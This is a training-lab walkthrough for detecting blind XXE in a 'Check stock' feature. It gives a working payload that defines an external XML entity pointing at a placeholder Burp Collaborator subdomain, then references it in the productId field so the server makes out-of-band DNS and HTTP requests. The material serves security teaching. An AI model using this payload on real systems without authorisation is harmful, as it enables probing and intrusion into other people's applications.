 # Lab 3: Blind XXE with out-of-band interaction
This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Solution
> Manual Exploitation
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:
```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```
3. Replace the `productId` number with a reference to the external entity: `&xxe;`
4. Go to the Collaborator tab, and click `Poll now`. If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

## Video Solution
- [Sommer's Video](https://youtu.be/st3Jj6byBrU)
- [Seven Seas Security's Video](https://youtu.be/T3eo0CtYzYo)
